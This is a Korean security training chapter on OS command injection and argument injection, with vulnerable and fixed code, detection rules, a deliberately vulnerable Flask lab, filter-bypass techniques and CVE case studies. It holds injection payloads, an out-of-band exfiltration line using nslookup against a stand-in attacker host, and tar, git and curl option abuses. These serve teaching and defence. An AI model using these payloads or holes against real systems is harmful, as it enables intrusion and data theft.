

# OS 명령 인젝션 (OS Command Injection)

| 레벨 | 상태 | 최종 개정 | CWE |
|---|---|---|---|
| 🟡 실무 (7절은 🔴) | 🔄 개정중 | 2026-10-22 | [CWE-78](https://cwe.mitre.org/data/definitions/78.html) |

> **한눈에 보기**
> 사용자 입력을 셸 명령 문자열에 이어 붙이면, 셸은 그 입력을 "인자"가 아니라 "명령"으로 읽는다.
> 공격자는 웹 서버 프로세스의 권한으로 임의 명령을 실행한다. 대개 그 자리에서 서버 장악이다.
> 막는 방법은 하나다. **셸을 거치지 말고 인자 배열로 호출하라.** 그래도 남는 인자 인젝션은 허용 목록으로 막는다.

## 1. 원리

OS 명령 인젝션은 [1장 SQL 인젝션](01-sql-injection.md)과 같은 구조다. 해석기만 DB 파서에서 **셸**(shell)로 바뀐다. 신뢰 경계(trust boundary)는 입력이 명령 문자열에 섞이는 한 줄에서 무너진다.



<figure>
<figcaption>그림 1. 셸은 문자열 하나를 받아 <code>;</code>, <code>|</code>, <code>$()</code> 같은 메타문자로 쪼갠다. 어디까지가 개발자의 명령이고 어디부터가 입력인지 셸은 모른다.</figcaption>
</figure>

### 셸을 거치는 호출과 거치지 않는 호출

이 장의 핵심은 한 가지 구분이다. 프로그램을 실행하는 API에는 두 종류가 있다.

| 구분 | 무엇이 일어나는가 | 예 |
|---|---|---|
| **셸 경유** | 문자열 하나를 `/bin/sh -c`(Windows는 `cmd.exe /c`)에 넘긴다. 셸이 메타문자를 해석한 뒤 프로그램을 띄운다 | C `system()`, `popen()` · Python `os.system()`, `os.popen()`, `subprocess.run(..., shell=True)` · PHP `exec()`, `shell_exec()`, `system()`, `passthru()`, 백틱 · Node `child_process.exec()` · Java `Runtime.exec(new String[]{"sh","-c",…})` |
| **인자 배열** | 프로그램 경로와 인자 목록을 OS에 직접 넘긴다(`execve`). 셸이 없으므로 메타문자는 그냥 문자다 | C `execve()` · Python `subprocess.run([...])` · PHP `proc_open()`에 배열 · Node `execFile()`, `spawn()` · Java `ProcessBuilder` |

셸 경유 호출에서 입력이 섞이면 **메타문자 하나로** 명령이 추가된다.

| 메타문자 | 의미 | 예 (실습 환경) |
|---|---|---|
| `;` | 명령 구분 | `127.0.0.1;id` |
| `\|` | 앞 출력을 뒤 입력으로 | `127.0.0.1\|id` |
| `&`, `&&`, `\|\|` | 백그라운드, 조건 실행 | `127.0.0.1&&id` |
| `$()`, `` ` ` `` | 명령 치환. **큰따옴표 안에서도** 실행된다 | `$(id)` |
| 개행 (`%0a`) | 명령 구분. 필터가 자주 놓친다 | `127.0.0.1%0aid` |
| `>`, `<`, `>>` | 리다이렉션. 파일 쓰기 | `;id>/tmp/out` |

Java `Runtime.exec(String)`은 혼동이 많다. 문자열 하나를 받지만 셸을 부르지 않고 **공백 문자로만**(`StringTokenizer` 기본 구분자: 스페이스·탭·개행) 쪼개 `execve`한다. 그래서 `;id`는 통하지 않는다(로컬 확인: `exec("echo 127.0.0.1;id")`는 `127.0.0.1;id`를 출력). 대신 다음에 설명하는 인자 인젝션에는 그대로 열려 있고, 개발자가 `sh -c`로 감싸는 순간 셸 경유가 된다.

### 인자 인젝션: 셸이 없어도 남는 것

인자 배열로 호출하면 메타문자는 무력해진다. 그러나 입력이 **인자의 어느 위치**에 들어가는지는 여전히 문제다. 입력이 `-`로 시작하면 프로그램은 그것을 **옵션**으로 읽는다. 이것이 인자 인젝션(argument injection, [CWE-88](https://cwe.mitre.org/data/definitions/88.html))이다. 어떤 프로그램이 어떤 옵션으로 파일 쓰기나 명령 실행까지 가는지는 [GTFOBins](https://gtfobins.github.io/)에 정리돼 있다. 원래 권한 상승 자료지만 "이 프로그램에 옵션을 넣을 수 있으면 무엇까지 되는가"를 찾는 데 그대로 쓴다.

결과를 보는 방법에 따라 네 유형으로 나뉜다. 출력이 응답에 **그대로 나오는** 경우, 시간 지연(`sleep`)으로만 아는 경우, 출력을 웹 루트 파일로 **리다이렉트**해 따로 읽는 경우, DNS·HTTP 요청을 밖으로 보내게 하는 **OOB**(out-of-band) 경우다. 뒤의 셋이 블라인드(blind)다.

## 2. 발생하는 코드 패턴

### Python

```python
# ❌ 취약: 문자열 한 개를 셸에 넘긴다
subprocess.run(f"ping -c 1 {host}", shell=True)
os.system("ping -c 1 " + host)
```

```python
# ✅ 안전: 인자 배열 + 입력 형식 검증 + 옵션 종료자
import ipaddress
addr = str(ipaddress.ip_address(host))          # IP가 아니면 ValueError
subprocess.run(["ping", "-c", "1", "--", addr])
```

`--`는 "이 뒤는 모두 옵션이 아니다"라는 getopt 관례다. 지원하는 프로그램에서는 인자 인젝션까지 막는다. 지원하지 않는 프로그램도 있으므로 형식 검증을 함께 둔다.

### Java

```java
// ❌ 취약: sh -c 로 감싸면 셸 경유
Runtime.getRuntime().exec(new String[]{"sh", "-c", "ping -c 1 " + host});
// ⚠️ 셸은 없지만 인자 인젝션은 열려 있다. host="-f" 같은 옵션이 들어간다
Runtime.getRuntime().exec("ping -c 1 " + host);
// ✅ 안전: ProcessBuilder + 검증
new ProcessBuilder("ping", "-c", "1", "--", validatedHost).start();
```

### PHP · Node.js

```php
// ❌ 취약: exec/shell_exec/system/passthru와 백틱 모두 /bin/sh -c 를 거친다
$out = shell_exec("ping -c 1 " . $_GET['host']);
// ✅ 안전: 인자마다 escapeshellarg(). 가능하면 proc_open()에 배열(PHP 7.4+)
$out = shell_exec("ping -c 1 -- " . escapeshellarg($host));
```

```javascript
// ❌ 취약: exec()는 /bin/sh -c          // ✅ 안전: execFile()/spawn()은 인자 배열 (shell: true 를 주면 다시 취약)
exec(`ping -c 1 ${host}`, cb);           execFile("ping", ["-c", "1", "--", host], cb);
```

### 인자 인젝션 (로컬 확인)

아래 세 줄은 모두 인자 배열 호출이고 입력에 메타문자는 없다. 그런데도 파일이 생긴다(GNU tar 1.35, git 2.43, curl 8.5에서 확인).

```python
# ❌ 취약: 입력이 옵션 위치에 들어간다
subprocess.run(["tar", "-cf", "out.tar", "f.txt",
                "--checkpoint=1", "--checkpoint-action=exec=touch pwned_tar"])   # pwned_tar 생성
subprocess.run(["git", "clone", "--upload-pack=touch pwned_git", "file:///srv/repo", "x"])  # clone 실패해도 pwned_git 생성
subprocess.run(["curl", "-s", "-o/tmp/curlout", "http://127.0.0.1:8765/"])        # 응답이 파일로 저장
```

`git clone -- "--upload-pack=…"`처럼 입력 앞에 `--`를 두면 "repository does not exist"로 끝나고 파일은 생기지 않았다. `--`를 지원하지 않는 프로그램이면 `-`로 시작하는 입력을 거부한다.

## 3. 탐지 방법

### 3.1 코드 리뷰 / 정적 분석

**grep으로 시작한다.** 셸 경유 함수에 리터럴이 아닌 것이 들어가는지 본다.

```bash
# Python: shell=True 이거나 문자열 조립이 있는 실행 호출
grep -rnE "(os\.system|os\.popen|subprocess\.\w+)\s*\(.*(shell\s*=\s*True|f[\"']|\+|%|\.format)" --include='*.py' .
# PHP: 셸 경유 함수에 변수
grep -rnE "(shell_exec|exec|system|passthru|popen|proc_open)\s*\(.*\\\$" --include='*.php' .
# Java: sh -c 또는 cmd /c 로 감싼 exec
grep -rnE "exec\(.*(\"sh\"|\"bash\"|\"cmd(\.exe)?\"|/c|-c)" --include='*.java' .
```

**Semgrep taint 룰.** 요청 값이 셸 경유 싱크까지 흐르는지 본다. 4절의 `ping_demo.py`에 돌리면 `❌` 줄 하나를 잡고 `✅` 줄은 잡지 않는다(semgrep 1.182 실측).

```yaml
# cmdi-taint.yaml
rules:
  - id: python-cmdi-request-to-shell
    languages: [python]
    severity: ERROR
    message: 요청 값이 셸을 거치는 실행 함수까지 흐른다. 인자 배열 호출로 바꾸고 shell=True를 제거하세요.
    mode: taint
    pattern-sources:
      - pattern: request.args.get(...)
      - pattern: request.form.get(...)
    pattern-sinks:
      - patterns:
          - pattern-either:
              - pattern: subprocess.$F($CMD, ..., shell=True, ...)
              - pattern: os.system($CMD)
              - pattern: os.popen($CMD)
          - focus-metavariable: $CMD
```

```bash
semgrep --config cmdi-taint.yaml --metrics=off ping_demo.py
# ping_demo.py:9 — subprocess.run(f"ping -c 1 {host}", shell=True, ...)  1건
```

공식 레지스트리의 `semgrep --config p/command-injection`은 semgrep.dev에서 룰을 내려받으므로 **네트워크가 필요**하다. 오프라인이면 [semgrep-rules 저장소](https://github.com/semgrep/semgrep-rules)의 `python/lang/security/audit/subprocess-shell-true.yaml`, `python/flask/security/injection/subprocess-injection.yaml`, `javascript/lang/security/detect-child-process.yaml`, `java/lang/security/audit/command-injection-process-builder.yaml`(`develop` 브랜치에서 확인)을 받아 `--config 파일경로`로 쓴다. 룰 문법은 [도구 5장](../part6-tools/05-sast-semgrep-codeql.md).

**CodeQL**은 기본 쿼리 `py/command-line-injection`, `java/command-line-injection`, `js/command-line-injection`을 쓴다. 세 쿼리 모두 CWE-78과 함께 **CWE-88(인자 인젝션)** 태그가 붙어 있다. 셸 경유뿐 아니라 인자 배열의 입력 위치도 본다는 뜻이다(github/codeql 저장소의 `CommandInjection.ql`·`ExecTainted.ql` 헤더에서 확인).

**리뷰할 때 보는 순서**는 넷이다. (1) 프로세스를 띄우는 함수를 전부 찾는다(싱크). (2) 셸 경유인지 인자 배열인지 가른다. 셸 경유에 입력이 섞이면 그 자체로 취약하다. (3) 인자 배열이면 입력이 **몇 번째 인자**이고 `-`로 시작할 수 있는지 보고, 그 프로그램의 위험한 옵션을 GTFOBins에서 찾는다. (4) 중간의 검증이 "메타문자 제거"라면 7절의 우회를 대입해 본다. 허용 목록이 아니면 불완전하다고 본다.

### 3.2 동적 테스트

호스트명, 파일명, 이메일 주소, 이미지 변환 옵션처럼 **외부 프로그램에 넘길 법한 값**이 1순위다. 입력 위치마다 다음을 넣고 응답을 본다.

| 입력 | 기대 반응 | 확인하는 것 |
|---|---|---|
| `127.0.0.1;id` | 응답에 `uid=` | 출력 반환형 |
| `127.0.0.1\|id`, `127.0.0.1%0aid` | 위와 같음 | 구분자 필터의 빈틈 |
| `$(sleep 5)`, `` `sleep 5` `` | 응답 5초 지연 | 따옴표 안 문맥, 블라인드 |
| `;id>/var/www/html/out.txt` | `/out.txt`에 출력 | 블라인드 (리다이렉트) |
| `;nslookup x.attacker-controlled.example` | 공격자 DNS 로그에 조회 기록 | 블라인드 (OOB) |

시간 지연은 두 번 이상 재서 네트워크 편차와 구분한다. OOB는 Burp Collaborator나 [interactsh](https://github.com/projectdiscovery/interactsh) 같은 **자기 소유의** 콜백 서버로만 한다.

**자동화**: Burp Scanner와 ZAP은 위 페이로드를 모든 파라미터에 넣어 본다. [commix](https://github.com/commixproject/commix)는 명령 인젝션 전용으로, sqlmap처럼 후보 확인 뒤 범위를 넓히는 용도다. 자동화는 "있다/없다"를 넓게, 사람은 "어느 프로그램의 어느 인자인가"를 깊게 본다.

## 4. 실습 🧪

`ping` 명령이 없는 최소 컨테이너에서는 `apt install iputils-ping`을 먼저 한다.

### 4.1 로컬 최소 재현 (Flask, 5분)

```python
# ping_demo.py  (실습용)
import subprocess
from flask import Flask, request
app = Flask(__name__)

@app.route("/vuln")
def vuln():
    host = request.args.get("host", "127.0.0.1")
    out = subprocess.run(f"ping -c 1 {host}", shell=True, capture_output=True, text=True)  # ❌
    return f"<pre>{out.stdout}{out.stderr}</pre>"

@app.route("/safe")
def safe():
    host = request.args.get("host", "127.0.0.1")
    out = subprocess.run(["ping", "-c", "1", "--", host], capture_output=True, text=True)   # ✅
    return f"<pre>{out.stdout}{out.stderr}</pre>"

app.run(port=5000)
```

```bash
pip install flask && python3 ping_demo.py &
curl 'http://127.0.0.1:5000/vuln?host=127.0.0.1;id'          # ping 출력 뒤에 uid=0(root) ...
curl 'http://127.0.0.1:5000/vuln?host=$(id)'                 # ping: groups=0(root): Name or service not known
curl -o /dev/null -w '%{time_total}\n' 'http://127.0.0.1:5000/vuln?host=127.0.0.1;sleep%203'   # 3.00
curl 'http://127.0.0.1:5000/safe?host=127.0.0.1;id'          # ping: 127.0.0.1;id: Name or service not known
curl 'http://127.0.0.1:5000/safe?host=-c%2010'               # ping: -c 10: Name or service not known
```

두 번째 요청이 보여 주는 것이 중요하다. `$(id)`의 결과가 ping의 **인자**로 들어가 에러 메시지에 `groups=0(root)`가 찍힌다. 출력이 직접 돌아오지 않는 자리에서도 에러 메시지로 결과가 새는 경우다. 마지막 요청은 `--` 덕분에 `-c 10`이 옵션이 아니라 호스트명으로 취급된 것이다.

**고치기**: `/vuln`을 `/safe`처럼 바꾸고 `ipaddress.ip_address()` 검증을 추가한다. 위 요청 중 정상 요청만 성공해야 한다. 고치는 것까지가 실습이다.

### 4.2 공개 실습 환경

[PortSwigger Web Security Academy: OS command injection](https://portswigger.net/web-security/os-command-injection)의 다섯 랩을 순서대로 푼다.

1. **OS command injection, simple case** · 출력 반환형. `whoami` 결과가 응답에 보인다.
2. **Blind OS command injection with time delays** · `sleep 10`으로 10초 지연을 확인한다.
3. **Blind OS command injection with output redirection** · 출력을 정적 파일 경로로 보내 읽는다.
4. **Blind OS command injection with out-of-band interaction** · Collaborator로 DNS 조회를 받는다.
5. **Blind OS command injection with out-of-band data exfiltration** · `whoami` 결과를 DNS 서브도메인에 실어 보낸다.

2번부터는 응답에 아무것도 안 보인다. 1절의 네 유형 중 자기가 어디에 있는지 먼저 정하고 페이로드를 고르는 연습이다.

## 5. 익스플로잇 검증

실습 환경 안에서 다음을 순서대로 확인한다. 실제 서비스에서는 **1~2단계까지만** 하고, 3단계 이상은 허가 범위를 다시 확인한다.

| 단계 | 확인 | 심각도에 미치는 영향 |
|---|---|---|
| 1 | `id`·`whoami` 출력 또는 `sleep` 지연이 재현된다 | 취약점 존재 확인 |
| 2 | 실행 주체가 누구인가 (`www-data`인가 `root`인가), 컨테이너 안인가 | 피해 범위 |
| 3 | 파일 시스템 접근 (설정 파일, 자격 증명, 소스 코드) | 기밀성. High |
| 4 | 외부로 나가는 연결이 되는가 (리버스 셸, 데이터 유출 경로) | 횡적 이동. Critical |

명령 실행은 거의 항상 Critical로 끝나지만, 보고서에는 **누구의 권한으로, 어떤 격리 안에서** 실행되는지를 적어야 조치 우선순위가 정해진다. [보고 2장 영향도 산정](../part8-reporting/02-severity.md)을 따른다.

## 6. 방어

| 계층 | 조치 | 효과 |
|---|---|---|
| 코드 | **셸을 거치지 않는 인자 배열 호출** | 메타문자 인젝션 근본 제거 |
| 코드 | 입력은 **허용 목록**(형식 검증: IP, 파일명 패턴, 열거형)으로. `-`로 시작하는 값 거부, 가능하면 `--` 사용 | 인자 인젝션 방어 |
| 코드 | 외부 프로그램 대신 **라이브러리 API** (`ping` 대신 소켓, `convert` 대신 이미지 라이브러리) | 싱크 자체를 없앤다 |
| 프레임워크 | `shell=True`, `os.system`, `child_process.exec` 금지 린트 (Semgrep 룰을 CI에) | 기본값으로 차단 |
| 인프라 | 최소 권한 실행 계정, 컨테이너·seccomp·AppArmor, 외부로 나가는 연결 차단(egress 필터) | 피해 범위 축소, OOB·리버스 셸 차단 |
| 탐지 | 웹 서버 프로세스가 `sh`·`bash`·`nc`·`curl`을 자식으로 띄우는 이벤트 알림 (EDR, auditd) | 사후 대응 |

**하지 말아야 할 것**

- 메타문자 블랙리스트(`;`, `|`, `&` 제거)와 PHP `escapeshellcmd()`. 전자는 7절에서 보듯 개행·`$()`·`${IFS}`로 돌아가고, 후자는 메타문자에 백슬래시를 붙여 명령 추가는 막지만 인자 경계를 보호하지 않아 옵션 주입이 남는다. 인자에는 `escapeshellarg()`를 쓴다.
- "입력은 내부 관리자만 넣는다"는 가정. 8절의 CVE-2024-21887은 관리자 전용 API였지만 인증 우회와 결합돼 인증 없는 RCE가 됐다.

## 7. 우회 기법 🔴

방어가 불완전할 때 공격자가 쓰는 기법이다. 페이로드는 4.1의 로컬 환경 기준이며, 아래 표의 항목은 bash와 dash(`/bin/sh`)에서 실행해 확인했다. 중괄호 확장만 dash에서 실패한다.

### 공백 우회

| 기법 | 페이로드 | 원리 |
|---|---|---|
| `$IFS` | `cat${IFS}/etc/hostname` | 내부 필드 구분자 변수. 기본값이 공백·탭·개행 |
| 중괄호 확장 | `{cat,/etc/hostname}` | 쉼표로 나뉜 단어 목록이 공백 구분 인자로 확장. **bash 전용**이다. `/bin/sh`가 dash인 Debian·Ubuntu에서는 `shell=True`·`system()`이 dash를 부르므로 `not found`로 끝난다(로컬 확인) |

### 블랙리스트 우회

| 막은 것 | 우회 | 원리 |
|---|---|---|
| `cat`, `id` 같은 명령어 | `c"a"t`, `c\at`, `/???/c?t` | 셸은 따옴표·백슬래시를 제거한 뒤 실행하고, 글로브는 경로를 확장한다 |
| 명령어 | `a=ca;b=t;$a$b /etc/hostname` | 변수 조합. 실행 전 치환 |
| `id` 같은 특정 문자열 필터 | `echo aWQ= \| base64 -d \| sh` | 페이로드를 인코딩해 실행 시점에 복원 (`aWQ=`는 `id`의 base64) |
| 입력이 작은따옴표 안 | `';id;'`로 따옴표를 닫는다. 큰따옴표 안이면 `$(id)`가 그대로 실행된다 | 문맥을 먼저 알아야 한다 |

### 인자 인젝션으로 명령 없이

메타문자를 완벽히 막아도 입력이 옵션 자리에 가면 끝난다. 2절의 tar `--checkpoint-action`, git `--upload-pack`, curl `-o`가 그 예다. 이 밖에 `find -exec`, `zip -TT`, `rsync -e`, `ssh -oProxyCommand=` 등 "다른 프로그램을 실행하는 옵션"을 가진 도구가 많다. 공격자는 메타문자가 아니라 **그 프로그램의 man 페이지**를 읽는다. `curl -o`처럼 명령 실행 없이 **웹 루트에 파일을 쓰는 것**만으로도 웹셸이 된다.

### Windows와 Linux의 차이

| 항목 | Linux (`/bin/sh`) | Windows (`cmd.exe`) |
|---|---|---|
| 명령 구분 | `;`, `\|`, `&&`, 개행 | `&`, `\|`, `&&`. `;`는 구분자가 아니다 |
| 명령 치환 | `$()`, 백틱 | 없음. 대신 `%VAR%` 환경변수 치환, `for /f`로 우회 |
| 이스케이프 | `\`, 따옴표 | `^`. 큰따옴표 규칙은 **프로그램마다** 다르다 |
| 인자 전달 | `execve`에 배열. 경계가 보존된다 | `CreateProcess`에 **문자열 하나**. 각 프로그램이 스스로 쪼갠다 |

마지막 줄이 중요하다. Windows에서는 인자 배열로 호출해도 런타임이 문자열 하나로 합쳐 넘기고 받는 쪽이 다시 쪼갠다. 이 규칙이 어긋나는 곳에서 인젝션이 생긴다. [CVE-2024-24576](https://nvd.nist.gov/vuln/detail/CVE-2024-24576)(Rust 표준 라이브러리 1.77.2 미만)은 `.bat` 파일을 띄울 때 `Command::arg`의 이스케이프가 `cmd.exe` 규칙과 달라 임의 명령이 실행된 사례이고, 8절의 CVE-2024-4577은 코드 페이지의 "best-fit" 문자 변환이 같은 틈을 만든 사례다.

## 8. 실제 CVE 사례

| CVE | 제품 | 핵심 | 패치 |
|---|---|---|---|
| [CVE-2024-3400](https://nvd.nist.gov/vuln/detail/CVE-2024-3400) | Palo Alto Networks PAN-OS 10.2(<10.2.9-h1), 11.0(<11.0.4-h1), 11.1(<11.1.2-h3) GlobalProtect | 임의 파일 생성이 명령 인젝션으로 이어져 인증 없이 root 권한 코드 실행. CVSS 10.0 | [벤더 권고](https://security.paloaltonetworks.com/CVE-2024-3400) · [Unit 42 분석](https://unit42.paloaltonetworks.com/cve-2024-3400/) |
| [CVE-2024-21887](https://nvd.nist.gov/vuln/detail/CVE-2024-21887) | Ivanti Connect Secure, Policy Secure 9.x·22.x | 웹 컴포넌트의 명령 인젝션. 인증된 관리자용이지만 CVE-2023-46805(인증 우회)와 결합해 인증 없는 RCE | [벤더 권고](https://forums.ivanti.com/s/article/CVE-2023-46805-Authentication-Bypass-CVE-2024-21887-Command-Injection-for-Ivanti-Connect-Secure-and-Ivanti-Policy-Secure-Gateways) |
| [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271) | GNU Bash 4.3까지 ("Shellshock") | 환경변수 값의 함수 정의 뒤에 붙은 문자열을 실행. CGI(`mod_cgi`), SSH `ForceCommand`, DHCP 클라이언트 등 환경변수가 권한 경계를 넘는 모든 곳이 입구 | [Red Hat 분석](https://securityblog.redhat.com/2014/09/24/bash-specially-crafted-environment-variables-code-injection-attack/) · 첫 패치가 불완전해 CVE-2014-7169 추가 |
| [CVE-2024-4577](https://nvd.nist.gov/vuln/detail/CVE-2024-4577) | PHP 8.1(<8.1.29), 8.2(<8.2.20), 8.3(<8.3.8), Windows + Apache + PHP-CGI | **인자 인젝션**. 특정 코드 페이지에서 Windows의 best-fit 변환이 문자를 `-`로 바꿔 PHP-CGI가 옵션으로 해석. 소스 노출·임의 PHP 실행 | [GHSA-3qgc-jrrr-25jv](https://github.com/php/php-src/security/advisories/GHSA-3qgc-jrrr-25jv) · [DEVCORE 분석](https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability-en/) |

다음 한 건은 OS 명령 인젝션으로 자주 소개되지만 분류가 다르다. 비교용으로 둔다.

| CVE | 제품 | 왜 비교용인가 |
|---|---|---|
| [CVE-2021-22205](https://nvd.nist.gov/vuln/detail/CVE-2021-22205) | GitLab CE/EE 11.9 이상 (13.8.8, 13.9.6, 13.10.3 미만) | 레코드 분류는 코드 인젝션. 업로드 이미지를 파일 형식 검증 없이 ExifTool에 넘겼고, ExifTool의 DjVu 파서가 메타데이터를 Perl `eval`로 실행했다(CVE-2021-22204). 셸이 아니라 **외부 도구의 해석기**가 입력을 코드로 읽은 경우. "외부 프로그램에 입력을 넘긴다"는 싱크는 같다 |

**PAN-OS (CVE-2024-3400) 에서 배울 것**: 레코드 제목이 "임의 파일 생성이 명령 인젝션으로"다. Unit 42·Volexity 분석에 따르면 세션 쿠키 값이 검증 없이 파일 이름으로 쓰였고, 그 파일 이름을 나중에 다른 프로세스가 셸 명령 문자열에 넣었다. 입력이 싱크에 닿기까지 **두 단계**를 거쳤고, 첫 단계만 보면 "파일 하나 생기는 것"이라 경미해 보인다. 소스에서 싱크까지 끝까지 따라가야 하는 이유다. 레코드의 CWE는 CWE-77·CWE-20이다.

**Shellshock (CVE-2014-6271) 에서 배울 것**: 입력이 명령 **문자열**이 아니라 **환경변수**로 들어갔다. CGI는 `User-Agent` 같은 요청 헤더를 환경변수 `HTTP_USER_AGENT`로 넘기고, bash는 `() { :;};` 형태의 환경변수를 함수 정의로 파싱한 뒤 **그 뒤에 붙은 문자열까지** 실행했다. 패치는 함수 정의 뒤의 문자열을 실행하지 않도록 파서를 고쳤고, 첫 패치가 불완전해 CVE-2014-7169가 추가됐다. "셸에 닿는 입력"은 명령 인자만이 아니다.

**PHP-CGI (CVE-2024-4577) 에서 배울 것**: 레코드 CWE가 CWE-78이지만 본질은 인자 인젝션이다. 셸도, 메타문자도 없었다. OS가 문자를 바꿔 치기한 결과 `-d` 같은 PHP 옵션이 만들어졌다. 7절의 "Windows는 받는 쪽이 문자열을 다시 쪼갠다"가 실제로 터진 예다. 수정은 PHP-CGI가 인자를 옵션으로 해석하기 전에 0x80 이상의 바이트를 `WideCharToMultiByte`로 변환해 보고, 결과가 `-`가 되면 옵션 파싱(`getopt`)을 통째로 건너뛰는 쪽이었다(php-8.3.8 `sapi/cgi/cgi_main.c`에서 확인).

## 9. 체크리스트

**코드 리뷰할 때**
- [ ] 프로세스를 띄우는 모든 호출을 찾았는가? (`system`, `popen`, `subprocess`, `exec`, `child_process`, `ProcessBuilder`, 백틱)
- [ ] 셸 경유 호출에 리터럴이 아닌 값이 들어가는가?
- [ ] 인자 배열 호출이라도 입력이 `-`로 시작할 수 있는가? 그 프로그램의 위험 옵션을 확인했는가?
- [ ] 입력이 환경변수·파일 이름·설정 값으로 **저장됐다가** 나중에 명령에 쓰이는 경로가 있는가?

**테스트할 때**
- [ ] 외부 프로그램에 넘길 법한 파라미터(호스트, 파일명, 변환 옵션)를 골라냈는가?
- [ ] `;`, `|`, `%0a`, `$()`, 백틱을 모두 넣어 봤는가? 출력이 없을 때 시간 지연과 OOB를 시도했는가?
- [ ] 메타문자 없이 `-`로 시작하는 값을 넣어 봤는가?

**배포 전**
- [ ] 웹 서버 프로세스가 최소 권한 계정이고 컨테이너 안에서 도는가? 외부로 나가는 연결이 기본 차단인가?
- [ ] SAST에 명령 인젝션 룰(Semgrep/CodeQL)이 켜져 있는가?

## 10. 더 읽기

- [CWE-78](https://cwe.mitre.org/data/definitions/78.html) · [CWE-88 Argument Injection](https://cwe.mitre.org/data/definitions/88.html) · 공식 정의
- [OWASP OS Command Injection Defense Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html) · 언어별 안전한 호출
- [Python `subprocess` 문서: Security Considerations](https://docs.python.org/3/library/subprocess.html#security-considerations) · `shell=True`가 왜 위험한지 공식 설명
- [PortSwigger Web Security Academy: OS command injection](https://portswigger.net/web-security/os-command-injection) · 4.2의 실습 랩
- [GTFOBins](https://gtfobins.github.io/) · 프로그램별 "옵션으로 무엇까지 되는가" 목록. 인자 인젝션 영향 판단에 쓴다

## 변경 이력

| 날짜 | 변경 | 기여자 |
|---|---|---|
| 2026-10-22 | 초안 작성. Flask 예제·Semgrep 룰·인자 인젝션(tar/git/curl)·우회 페이로드 로컬 실행 확인, CVE 6건 cvelistV5 레코드 대조 | @anthonynoh5202 |
| 2026-10-23 | 기술 검증(2차): CVE 9건 레코드 재대조(전부 실존, 제품·버전·CWE 일치). Flask 예제 5개 요청·Semgrep 룰·Java `Runtime.exec` 데모 재실행, CodeQL 쿼리 CWE-88 태그·Semgrep 룰 경로 확인. `Runtime.exec(String)` 구분자를 `StringTokenizer` 기준으로, 우회 표의 "모든 영문자 필터" 행을 base64 페이로드에 맞게 수정, 중괄호 확장이 dash에서 실패함을 추가, PHP-CGI 수정 내용을 소스 기준으로 보정 | 검증팀 |
